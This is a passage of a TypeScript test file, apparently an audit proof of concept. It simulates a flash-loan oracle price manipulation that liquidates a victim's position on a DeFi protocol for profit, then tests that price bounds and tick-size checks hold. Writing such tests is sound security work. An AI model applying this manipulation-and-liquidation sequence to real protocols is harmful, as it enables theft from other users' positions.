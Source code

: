 ```typescript
        
        // Get protocol bounds
        const bounds = await onChain.getPriceBounds();
        console.log('Protocol Bounds:', bounds);
        
        // Step 3: Execute flash loan attack
        // Calculate maximum allowed price movement (20% within bounds)
        const maxPriceMove = initialPrice * 0.20;
        const targetPrice = Math.max(
            initialPrice - maxPriceMove,
            Number(bounds.minPrice)
        );
        
        // Simulate flash loan borrow
        console.log('Borrowing flash loan...');
        
        // Update price within bounds
        const priceUpdateTx = await onChain.updateOraclePrice({
            price: toBigNumberStr(targetPrice, 6)
        }, attacker);
        expect(priceUpdateTx.status).to.equal('success');
        
        // Step 4: Execute liquidation
        const liquidationTx = await onChain.liquidate({
            account: victim.address
        }, attacker);
        expect(liquidationTx.status).to.equal('success');
        
        // Step 5: Verify attack success
        const finalPosition = await onChain.getPosition(victim.address);
        expect(finalPosition.size).to.equal('0'); // Position fully liquidated
        
        // Calculate and verify profit
        const profit = calculateLiquidationProfit(
            initialPosition,
            finalPosition,
            targetPrice
        );
        console.log('Attack Profit:', profit);
        expect(Number(profit)).to.be.greaterThan(0);
        
        // Step 6: Restore price (simulate flash loan repayment)
        await onChain.updateOraclePrice({
            price: toBigNumberStr(initialPrice, 6)
        }, attacker);
    });
    
    it('should verify bounds and protections', async () => {
        // Verify price bounds are enforced
        const outOfBoundsPrice = initialPrice * 1.5; // 50% change
        try {
            await onChain.updateOraclePrice({
                price: toBigNumberStr(outOfBoundsPrice, 6)
            }, attacker);
            expect.fail('Should not allow price update outside bounds');
        } catch (error) {
            expect(error.message).to.include('price_out_of_bounds');
        }
        
        // Verify tick size requirements
        const invalidTickPrice = initialPrice + 0.1; // Assuming tick size > 0.1
        try {
            await onChain.updateOraclePrice({
```